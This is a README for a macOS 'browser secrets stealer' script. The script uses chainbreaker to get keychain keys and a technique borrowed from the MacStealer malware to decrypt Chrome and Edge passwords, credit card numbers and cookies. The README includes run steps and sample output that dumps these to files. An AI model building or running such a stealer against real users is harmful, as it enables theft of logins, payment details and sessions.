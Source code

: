 # macos browser secrets stealer

`dump_browser_secrets.py` takes the user login password and dumps the browser secrets such as passwords, credit cards number, and cookies. It uses [chainbreaker](https://github.com/n0fate/chainbreaker) to retrieve the decryption keys from the login keychain. Next, it uses these decryption keys to decrypt the browsers' stored secrets. The method used to retrieve browsers' secrets is taken from the [MacStealer malware](https://www.uptycs.com/blog/macstealer-command-and-control-c2-malware). 

Currently, it supports Chrome and Edge on macOS but it can support other browsers as well. To add support for a browser, just append the browser names to the `Broswer.browsers` variable in the script. 

*Note that, Firefox may use another technique to store its secret data so this script may not work against the Firefox browser.*


### RUN

First install [chainbreaker](https://github.com/n0fate/chainbreaker) and then run the script: 
```sh
python3 dump_browser_screts.py                                                                                                       
[INFO] Read and decrypt browsers stored secrets such as passwords, credit cards details, and cookies
[+] Enter login password:
[INFO] Login keychain path= /Users/dev/Library/Keychains/login.keychain-db
[INFO] Dumping passwords from keychain
[INFO] Available browsers = {'Google-Chrome': '/Users/dev/Library/Application Support/Google/Chrome', 'Microsoft-Edge': '/Users/dev/Library/Application Support/Microsoft Edge'}
[INFO] Getting and Decrypting browser secrets
[INFO] Decrypting credentials
[INFO] Decrypting credit cards number
[INFO] Decrypting cookies
[INFO] Writing the browser secrets to /Users/dev/secret_output
[INFO] Writing login details to a file
[INFO] Writing credit cards info to a file
[INFO] Writing cookies to a file
```
